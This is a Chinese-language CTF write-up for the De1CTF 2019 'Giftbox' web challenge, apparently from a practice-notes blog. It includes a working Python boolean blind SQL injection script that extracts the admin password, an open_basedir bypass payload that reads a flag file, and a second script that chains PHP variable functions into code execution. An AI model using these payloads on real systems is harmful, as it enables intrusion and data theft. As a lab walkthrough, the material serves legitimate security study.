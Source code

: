 ```yaml
---
title: '[De1CTF 2019]Giftbox'
date: 2024-12-08 21:14:00
tags:
      - php特性

categories: 刷题笔记
---
```


## [De1CTF 2019]Giftbox

我们打开靶机，看到一个网页上的Shell

![image-20241209193325675](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091933036.png)

提示我们输入help可以获得help，我们来看看

![image-20241209193404349](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091934450.png)

我们发现有几个命令，我们看一下都能干啥

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/15651499134e04718931d6b08b990c08a149fa5ccd-1024x947.png)

下面的login里有几个命令，我们试了一下发现其他几个要登录

![image-20241209193758720](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091937813.png)

我们试着用login命令登录看看。测试一下发现在用户名那里有注入点，可以根据回显进行布尔盲注

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/1565150217a6168e3b2d416cb28e00386600e147f7-1024x251.png)

写exp之前还需要看看是怎么和服务器通讯的，我们抓包看看

![image-20241209194209034](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091942095.png)

我们发现a参数用来执行命令，totp参数似乎随时间进行变化，我们需要真的它是怎么运行的

在/js/main.js里可以看到这个提示，还有totp的令牌怎么生成的

![image-20241209194525027](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091945061.png)

我们也拿到了令牌

![image-20241209194551903](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412091945937.png)

我们进行sql盲注

```
import requests
import pyotp
from time import  sleep
import re

url = "http://80965cc9-78d4-4bec-83f6-ec550345fe26.node4.buuoj.cn:81/shell.php"
totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)
name = ""
i = 0
while True:
    sleep(0.5)
    head = 32
    tail = 127
    i += 1
    while (head < tail):
        mid = head + tail >> 1
        payload = "login admin'/**/and/**/(ascii(substr((select/**/concat(password)/**/from/**/users),%d,1))/**/>/**/%d)and/**/'1 admin" % (i, mid)

        params = {
            "a":payload,
            "totp":totp.now()
        }

        r = requests.post(url,params=params)
        if "password" in r.text:
            head = mid + 1
        else:
            tail = mid
    if head != 32:
        name += chr(head)
        print(name)
    else:
        break

```

![image-20241209200339031](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412092003274.png)

成功爆出密码，我们登录

![image-20241209200417669](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412092004733.png)

我们来试一下targeting，launch，destruct那几个命令

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/1565151683aff446ce9331ef2cffa0f8929b971609.png)

似乎是一行一行执行命令的

然后我们发现targeting哪里似乎有点限制，我们来看看限制了啥

经过测试，我们发现targeting前面的code限制了两位

**![img](https://www.zhaoj.in/wp-content/uploads/2019/08/156515187657c6ee406f5fceba4512e9959d70cc4d.png)**

后面的position限制了十二位

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/1565151942525d059f81f77d93034e871adf576db5.png)

code 和 position 也有过滤。

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/156515216744ee95ee15232320f52307ab7a7dd870.png)

到这，我们来总结一下上面的命令

- targeting code position =>储存一条 $code = “position”;
- launch => 将上面 targeting 起来的 code 按照字典序跑一遍。
- destuct => 清空，恢复初始状态

我们利用PHP特性来写

![image-20241209203406770](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412092034820.png)

我们在网络返回的响应里得到了返回的内容

![image-20241209203917884](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412092039974.png)

然后我们来看看刚才那个 phpinfo 所返回的内容，由于 content-type 为 json 所以不好看，我们可以存到本地的一个 html 文件然后打开看。

![img](https://www.zhaoj.in/wp-content/uploads/2019/08/1565153260ba42bbad4bbd6aacc808e27d7cf6f873-1024x141.png)

我们可以看到有open_basedir，我们需要想办法绕过，可以利用 https://xz.aliyun.com/t/4720 的方法绕过。

绕过的 payload 如下。

```
chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo(file_get_contents('flag'));
```

然后我们写个exp来把这个 payload 打过去

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
import time

import requests

import pyotp as pyotp

totp = pyotp.TOTP('GAXG24JTMZXGKZBU', 8, interval=5)

session = requests.session()


def login():
    time.sleep(0.5)

    r = session.get('http://web72.buuoj.cn/shell.php',
                    params={'a': 'login admin hint{G1ve_u_hi33en_C0mm3nd-sh0w_hiiintttt_23333}', 'totp': totp.now()})

    return r.json()


def targeting(code, position):
    time.sleep(0.5)

    r = session.get('http://web72.buuoj.cn/shell.php', params={'a': 'targeting ' + code + ' ' + position, 'totp': totp.now()})

    return r.json()


def launch():
    time.sleep(0.5)

    r = session.get('http://web72.buuoj.cn/shell.php', params={'a': 'launch', 'totp': totp.now()})

    return r.text


def destuct():
    time.sleep(0.5)

    r = session.get('http://web72.buuoj.cn/shell.php', params={'a': 'destruct', 'totp': totp.now()})

    return r.json()


def main():
    login()
    destuct()
    targeting("a", "chdir")
    targeting("b", "img")
    targeting("c", "{$a($b)}")

    targeting("d", "ini_set")
    targeting("e", "open_basedir")
    targeting("f", "..")
    targeting("g", "{$d($e,$f)}")

    targeting("h", "{$a($f)}")
    targeting("i", "{$a($f)}")

    targeting("j", "Ly8v")
    targeting("k", "base64_")
    targeting("l", "decode")
    targeting("m", "$k$l")
    targeting("n", "{$m($j)}")
    targeting("o", "{$d($e,$n)}")

    targeting("p", "flag")
    targeting("q", "file_get")
    targeting("r", "_contents")
    targeting("s", "$q$r")

    targeting("t", "{$s($p)}")

    print(launch())


if __name__ == '__main__':
    main()
```

运行，在结果里看到flag



参考https://www.zhaoj.in/read-6170.html#0x03%E3%80%81Giftbox
